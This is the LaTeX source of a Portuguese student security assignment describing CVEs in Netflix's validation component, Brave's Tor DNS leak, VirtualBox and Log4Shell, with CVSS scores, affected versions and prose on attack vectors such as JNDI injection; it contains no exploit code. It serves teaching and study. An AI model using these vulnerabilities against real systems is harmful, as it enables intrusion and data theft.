\documentclass[11t]{article}
\usepackage[utf8]{inputenc}
\usepackage{float}
\usepackage{adjustbox}

\usepackage{changepage}

\usepackage{caption}
\usepackage{float}
\usepackage{listings}
\usepackage{verbatim}
\usepackage[most]{tcolorbox}
\usepackage[portuges]{babel}
\usepackage{indentfirst}
\usepackage{graphicx}
\usepackage{subcaption}
\usepackage{geometry}
\usepackage[shortlabels]{enumitem}
\usepackage{minted}
\usepackage{graphics}
 \geometry{
    a4paper,
    total={130mm,227mm},
    left=40mm,
    top=40mm,
}
\usepackage{csquotes}

\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=black,
    filecolor=magenta,      
    urlcolor=blue,
    citecolor=blue,
    pdftitle={Overleaf Example},
    pdfpagemode=FullScreen,
    }
\usepackage{pgfplots}
\pgfplotsset{width=10cm,compat=1.9}


\renewcommand{\contentsname}{Índice}

\begin{document}

\begin{titlepage}
   \begin{center}
        
\includegraphics[width=0.3\textwidth]{images/EEUMfinal.png}

        \vspace{1cm}
        \textbf{\LARGE Tecnologias de Segurança}
    
        \vspace{0.5cm}
        \textbf{\Large Vulnerabilidades e Exposições Comuns (CVE)}

        \vspace{1cm}
        
        \textbf{\Large Grupo 4}
        
        \vspace{0.5cm}
        
        \textbf{\large 
        Bruno Filipe de Sousa Dias PG47068 \\
        Guilherme da Silva Amorim Martins PG47225 \\
        Luís Enes Sousa A89597 \\
        }

        \vspace{0.5cm}
    
    \begin{figure}[!htb]
        \minipage{0.30\textwidth}%
            
\includegraphics[width=\linewidth]{images/137.jpg} 
            \centering
            \captionsetup{PG47068}
        \endminipage
        \hspace{0,2cm}
        \minipage{0.30\textwidth}%
            
\includegraphics[width=\linewidth]{images/50.jpeg} 
            \centering
            \captionsetup{PG47225}
        \endminipage
        \hspace{0,2cm}
        \minipage{0.30\textwidth}%
            
\includegraphics[width=\linewidth]{images/80.jpg}
            \centering
            \captionsetup{A89597}
        \endminipage
        \hspace{0,2cm}
    \end{figure}
        
        \textbf{28 de fevereiro de 2022}
   \end{center}
    

\end{titlepage}

\tableofcontents
\thispagestyle{empty}
\clearpage
\listoffigures
%\listoftables
\thispagestyle{empty}
\cleardoublepage

\setcounter{page}{1}

%--------------------------------------------------%
\clearpage
\section{Exercícios}

\vspace{0.5cm}

\subsection{Exercício 1}
\textbf{Escolha três aplicações tipicamente usadas em seu computador pessoal, pesquise pela existência de vulnerabilidades conhecidas e meios de explorá-las. Descreva detalhadamente as descobertas, incluindo as imagens de suas pesquisas e a descrição das informações nelas contidas.}

\vspace{0.5cm}

\subsubsection{Introdução à resposta}
De forma a conseguirmos responder a esta questão teríamos, inicialmente, de escolher três aplicações que utilizamos no dia a dia, tanto a nível universitário, como a nível de lazer. Sendo assim, as 3 aplicações escolhidas que serão estudadas no decorrer desta resposta são:

\begin{itemize}
    \item Netflix
    \item Brave (Web Browser)
    \item VirtualBox
\end{itemize}

\vspace{0.25cm}

\subsubsection{Netflix}

Iremos, inicialmente, estudar vulnerabilidades existentes na \textbf{Netflix}. Para isso, iremos procurar as mesmas no \textbf{MITRE}, processo que irá ser recorrente na procura de vulnerabilidades face às várias aplicações. Feita essa pesquisa, conseguimos encontrar várias vulnerabilidades. Algumas fariam parte da aplicação, e outras poderiam não estar diretamente relacionadas (vulnerabilidade não foi da aplicação em si), mas afetar igualmente o sistema.

\vspace{0.1cm}

A vulnerabilidade escolhida foi publicada no \textbf{MITRE} no dia 19 de Fevereiro de 2020, possuindo como CVE-ID, \textbf{CVE-2020-9297}. 

\vspace{0.1cm}

Todas a versões anteriores à versão \textbf{v0.1.1-rc.274} usufruem de \textit{Java Bean Validation} (JSR 380) e dos seus autenticadores de restrições personalizados. A vulnerabilidade incide numa função do componente \textit{\textbf{Java Bean Validation}}. Ao construir mensagens de erro, podemos utilizar, por exemplo, expressões de Java EL (\textit{Expression Language}). Nesse sentido, se um \textit{attacker} conseguir injetar informação no template da mensagem de erro passada para a função enunciada acima, ele pode correr, dessa forma, qualquer código Java introduzido, sendo este um problema muito grave. Sabemos ainda que a este tipo de ataques podemos atribuir o nome \textbf{Injection}.

\vspace{0.2cm}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{images/descricaoNetflix.png}
    \caption{Descrição CVE (Netflix) na plataforma MITRE}
\end{figure}

\clearpage

Analisando agora as métricas, podemos perceber que esta vulnerabilidade possui um \textit{Base Score} de 9.8, sendo considerada como uma vulnerabilidade de nível crítico. Sabemos ainda que o seu impacto é de 5.9 e o \textit{score} da sua \textit{exploitability} é de 3.9. Quanto ao ataque, podemos perceber alguns aspetos pela informação recolhida:
\begin{itemize}
    \item Tem de ser efetuado na Rede;
    \item É um ataque de complexidade baixa;
    \item Não necessita de interação com utilizador nem de nenhum privilégio;
    \item Confidencialidade, Integridade e Disponibilidade afetadas com um grau de impacto alto.
\end{itemize}

\vspace{0.1cm}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.62\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/classificacaoNetflix.png}
        \caption{Classificação Netflix plataforma NVD}
    \end{minipage}
    \hfill
    \begin{minipage}{0.36\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/metricasNetflix.png}
        \caption{Métricas Netflix plataforma NVD}
    \end{minipage}
\end{figure}

\vspace{0.3cm}

A vulnerabilidade em estudo afetou unicamente esta aplicação e fornecedor. Tal como referido anteriormente, afetou a versão 0.1.1, sendo esta vulnerabilidade extinta no update Rc274 da mesma.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\textwidth]{images/produtosAfetadosNetflix.png}
    \caption{Produtos Afetados Netflix - plataforma CVEDetalis}
\end{figure}

Contudo, e apesar do seu grau aceitável de \textit{exploitability}, não conseguimos encontrar nenhum \textbf{exploit} que explore esta vulnerabilidade.


\subsubsection{Brave (Web Browser)}

Estudada a vulnerabilidade escolhida para a Netflix, passamos neste momento a estudar uma vulnerabilidade para o \textit{Web Browser} \textbf{Brave}. Tal como feito anteriormente, iremos procurar vulnerabilidades no \textbf{MITRE} e escolher a que entendemos como mais interessante.

\vspace{0.1cm}

A vulnerabilidade escolhida foi publicada no \textbf{MITRE} no dia 6 de Janeiro de 2021, possuindo como CVE-ID, \textbf{CVE-2021-22917}.

\vspace{0.1cm}

Todas as versões do Brave Browser entre a versão 1.17 e a versão 1.20 possuíram esta vulnerabilidade. Quando um utilizador se conectava ou navegava para um URL numa TOR Window, ou seja, numa janela em que é suposto o utilizador se encontrar anónimo, os pedidos DNS eram enviados diretamente sem a utilização do proxy TOR. Isto fazia com que o verdadeiro endereço IP, bem como o \textit{domain name} do pedido para o ISP e DNS \textit{server} do utilizador, fossem revelados.

\vspace{0.2cm}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{images/descricaoBrave.png}
    \caption{Descrição CVE (Brave) na plataforma MITRE}
\end{figure}

\vspace{0.4cm}

Analisando agora as métricas, podemos perceber que esta vulnerabilidade possui um \textit{Base Score} de 6.5, sendo considerada como uma vulnerabilidade de nível médio. Sabemos ainda que o seu impacto é de 3.6 e o \textit{score} da sua \textit{exploitability} é de 2.8. Quanto ao ataque, podemos perceber alguns aspetos pela informação recolhida:
\begin{itemize}
    \item Tem de ser efetuado na Rede;
    \item É um ataque de complexidade baixa;
    \item Não necessita de nenhum privilégio;
    \item É necessária interação com o Utilizador;
    \item Confidencialidade afetada com um grau de impacto alto;
    \item Integridade e Disponibilidade não afetadas.
\end{itemize}

\vspace{0.1cm}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.62\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/classificacaoBrave.png}
        \caption{Classificação Brave plataforma NVD}
    \end{minipage}
    \hfill
    \begin{minipage}{0.36\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/metricasBrave.png}
        \caption{Métricas Brave plataforma NVD}
    \end{minipage}
\end{figure}

Como referido anteriormente, esta vulnerabilidade afeta unicamente esta aplicação e fornecedor, mais especificamente, entre as versões 1.17 e 1.20 (inclusive).

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{images/produtosAfetadosBrave.png}
    \caption{Produtos Afetados Brave - plataforma CVEDetalis}
\end{figure}

\vspace{0.2cm}

Contudo, e apesar do seu grau aceitável de \textit{exploitability}, não conseguimos encontrar nenhum \textbf{exploit} que explore esta vulnerabilidade.

\vspace{0.75cm}



\subsubsection{VirtualBox}

Chegamos, por fim, à última aplicação escolhida, a \textbf{VirtualBox}. Mais uma vez, iremos procurar vulnerabilidades para a nossa aplicação no \textbf{MITRE}. Na aplicação em estudo encontramos diversas vulnerabilidades, no entanto, desta vez o processo de escolha foi selecionar a vulnerabilidade que nos permitisse o estudo de pelo menos um \textbf{exploit}.

\vspace{0.1cm}

A vulnerabilidade escolhida foi publicada no \textbf{MITRE} no dia 14 de Dezembro de 2018, possuindo como CVE-ID, \textbf{CVE-2019-2721}.

\vspace{0.1cm}

A vulnerabilidade em estudo incide num componente da \textit{Oracle Virtualization}, mais especificamente no Core. A vulnerabilidade é facilmente explorável, sendo unicamente necessário um ataque de baixo privilégio para aceder às infraestruturas onde a Oracle VM VirtualBox é executada. Ataques deste género poderiam comprometer toda a Oracle VM VirtaulBox, resultando num \textit{takeover}, bem como tendo impacto em outros produtos adicionais.

\vspace{0.2cm}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{images/descricaoVirtualBox.png}
    \caption{Descrição CVE (VirtualBox) na plataforma MITRE}
\end{figure}

\vspace{0.4cm}

Analisando agora as métricas, podemos perceber que esta vulnerabilidade possui um \textit{Base Score} de 8.8, sendo considerada como uma vulnerabilidade de nível alto. Sabemos ainda que o seu impacto é de 6.0 e o \textit{score} da sua \textit{exploitability} é de 2.0. Quanto ao ataque, podemos perceber alguns aspetos pela informação recolhida:
\begin{itemize}
    \item Tem de ser efetuado localmente;
    \item É um ataque de complexidade baixa;
    \item Necessita de nível baixo de privilégio;
    \item Não é necessária interação com o Utilizador;
    \item Confidencialidade, Integridade e Disponibilidade afetadas com um grau de impacto alto.
\end{itemize}

\vspace{0.1cm}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.62\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/classificacaoVirtualBox.png}
        \caption{Classificação VirtualBox plataforma NVD}
    \end{minipage}
    \hfill
    \begin{minipage}{0.36\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/metricasVirtualBox.png}
        \caption{Métricas VirtualBox plataforma NVD}
    \end{minipage}
\end{figure}

\vspace{0.3cm}

Como referido anteriormente, esta vulnerabilidade afeta esta aplicação e o seu fornecedor, mais especificamente, todas as versões da aplicação anteriores à 5.2.28 e à 6.0.6 (inclusive).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{images/produtosAfetadosVirtualBox.png}
    \caption{Produtos Afetados VirtualBox - plataforma CVEDetalis}
\end{figure}

\vspace{0.3cm}

Chegamos, por fim, à parte de explorar \textit{exploits} desta vulnerabilidade. Apesar do seu grau de \textit{exploitability} inferior às vulnerabilidades estudadas anteriormente, conseguimos encontrar um \textbf{exploit} que explore esta vulnerabilidade. 

\vspace{0.1cm}

Este \textit{exploit} é direcionado para Windows e permite-nos invocar qualquer código dentro do processo de \textit{hardening}, processo que é utilizado para assegurarmos a segurança do sistema. Assim, conseguimos expor as \textit{drives} do \textit{kernel} para processos normais de um \textit{user}, resultando num problema de EoP (\textit{End of Procedure}). O código do \textit{epxloit} encontra-se presente nos \textbf{Anexos}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{images/exploitVirtualBox.png}
    \caption{Exploits (VirtualBox) - plataforma ExploitDB}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{images/exploitVirtualBoxDetalhado.png}
    \caption{Exploit VirtaulBox Detalhado}
\end{figure}


%--------------------------------------------------%
\clearpage
\subsection{Exercício 2}
\textbf{No final de 2021, foi descoberta uma falha de segurança na biblioteca open source Log4j. Esta falha foi identificada com CVE-2021-44228. Use esta identificação para descrever detalhadamente esta falha, incluindo (mas não apenas) as versões afetadas, os eventuais exploits existentes, vectores de ataque, impacto e soluções. Use as imagens de suas consultas e outros recursos utilizados para justificar suas conclusões}

\vspace{0.5cm}

O problema com o Log4j é considerado crítico, porque explorá-lo é relativamente simples. A brecha permite que o invasor remoto não autenticado realize um ataque à popular biblioteca de log Apache Log4j, utilizada por vários serviços muito populares como iCloud, Amazon e Tesla. A vulnerabilidade é aproveitada quando um invasor envia uma solicitação manipulada que usa uma injeção de Java Name and Directory Interface (JNDI), que é uma interface de diretório java, por meio de uma variedade de serviços, incluindo: Lightweight Directory Access Protocol, Secure (LDAP), Remote Method Invocation (RMI) e Domain Name Service (DNS).

\vspace{0.1cm}

Popularmente chamada em vários blogs e relatórios de segurança como “Log4Shell”, a falha afeta desde a versão 2.0-beta9 até à 2.15.0 da biblioteca de registos de código aberto Apache Log4j 2. O relatório técnico de incidentes CVE identificou a vulnerabilidade pelo código CVE-2021-44228 em 26 de novembro, sendo esta do tipo Java Naming and Directory InterfaceTM (JNDI) sobre recursos de configuração, log e parâmetros, inclusive sobre serviços LDAP ou terminais JNDI.

\vspace{0.2cm}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{images/descricaoPergunta2.png}
    \caption{Descrição CVE na plataforma MITRE}
\end{figure}

\vspace{0.4cm}

\par Em relação às métricas podemos verificar que esta falha tem um \textit{Base Score} de 10.0, ou seja, uma falha considerada crítica. É possível analisar, também, que teve um impacto de 6.0 e a sua \textit{exploitability score} é de 3.9. Conseguimos complementar estas informações com os detalhes do ataque, tais como:

\begin{itemize}
    \item Tem de ser efetuado na rede;
    \item É um ataque de complexidade baixa;
    \item Não necessita de privilégio;
    \item Não é necessária interação com o Utilizador;
    \item Confidencialidade, Integridade e Disponibilidade afetadas com um grau de impacto alto.
\end{itemize}


\begin{figure}[H]
    \centering
    \begin{minipage}{0.62\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/classificacaoPergunta2.png}
        \caption{Classificação Log4j plataforma NVD}
    \end{minipage}
    \hfill
    \begin{minipage}{0.36\textwidth}
        \centering
